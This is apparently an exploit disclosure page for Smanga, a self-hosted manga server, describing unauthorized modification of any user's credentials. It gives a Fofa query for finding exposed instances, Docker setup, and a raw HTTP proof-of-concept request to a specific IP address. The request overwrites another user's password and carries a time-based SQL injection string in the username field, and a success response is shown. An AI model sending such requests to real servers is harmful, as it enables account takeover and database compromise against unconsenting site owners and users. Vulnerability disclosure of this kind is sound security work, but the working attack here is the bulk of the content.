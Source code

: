 #### Unauthorized Modification of User Credentials

**Exploit Title:** Smanga MediaId Unauthorized Modification of User Credentials  
**Date:** 2024-04-01  
**Exploit Author:** Shuo Sheng, Jixin Zhang  

##### Description:

Smanga allows unauthorized modification of any user's credentials through its `mediaId`.

##### Fofa Query:

```
title="smanga"
```

##### Installation via Docker:

```dockerfile
docker run -itd --name smanga \
-p 3333:3306 \
-p 9797:80 \
-v /mnt:/mnt \
-v /route/smanga:/data \
lkw199711/smanga;
```

##### Proof of Concept (PoC):

```http
POST /php/public/index.php/user/update HTTP/1.1
Host: 163.142.38.128:8083
Content-Length: 265
Accept: application/json, text/plain, */*
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://163.142.38.128:8083
Referer: http://163.142.38.128:8083/
Accept-Encoding: gzip, deflate, br

userId=9&userName=%3F%27%20and%20sleep%283%29%23&passWord=sssss&editUser=1&editMedia=1&nickName=&registerTime=2025-01-03%2010%3A16%3A39&updateTime=2025-01-03%2010%3A16%3A39&mediaLimit=&targetUserId=10&timestamp=1735899480975&keyword=3c8ba4463f3e5d4dd98e8c0b14f2047f
```

return：user data update success